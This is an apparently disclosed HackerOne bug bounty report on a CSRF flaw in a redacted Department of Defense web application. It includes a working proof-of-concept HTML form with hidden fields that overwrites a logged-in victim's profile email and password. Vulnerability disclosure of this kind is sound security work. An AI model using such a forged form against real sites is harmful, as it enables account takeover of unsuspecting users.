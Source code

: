 # Account takeover through CSRF in http://███████/██████████/default.asp

## Report Details
- **Report ID**: 670924
- **URL**: https://hackerone.com/reports/670924
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-08-10T08:35:05.196Z
- **Disclosed**: 2020-06-11T18:21:33.569Z

## Reporter
- **Username**: dhakal_ananda
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Hi team,

I have found a CSRF vulnerability in http://██████/████/default.asp that leads to account takeover.

## Step-by-step Reproduction Instructions

1. Go to http://██████████/████████/default.asp and login
2. Copy the below HTML code
3. Submit the request and see your profile
4. Try to login again with your username and password
5. Use the password `██████████`. You will be logged in with `████` as a password.


**HTML code:**
```
<html>
  <body>
    <form action="http://██████████/█████████/myprofile.asp?update=yes" method="POST">
      <input type="hidden" name="txtFName" value="███" />
      <input type="hidden" name="txtMI" value="By" />
      <input type="hidden" name="txtLName" value="█████████" />
      <input type="hidden" name="txtTitle" value="" />
      <input type="hidden" name="txtOrganization" value="H1" />
      <input type="hidden" name="txtEmail" value="██████████" />
      <input type="hidden" name="txtPhone" value="" />
      <input type="hidden" name="txtFax" value="" />
      <input type="hidden" name="txtStreet1" value="██████████" />
      <input type="hidden" name="txtStreet2" value="" />
      <input type="hidden" name="txtCity" value="" />
      <input type="hidden" name="state" value="NULL" />
      <input type="hidden" name="txtZip" value="" />
      <input type="hidden" name="txtPassword" value="███" />
      <input type="hidden" name="txtVeriPW" value="█████" />
      <input type="hidden" name="submit1" value="Submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

## Impact

Complete account takeover

## Attachments
No attachments
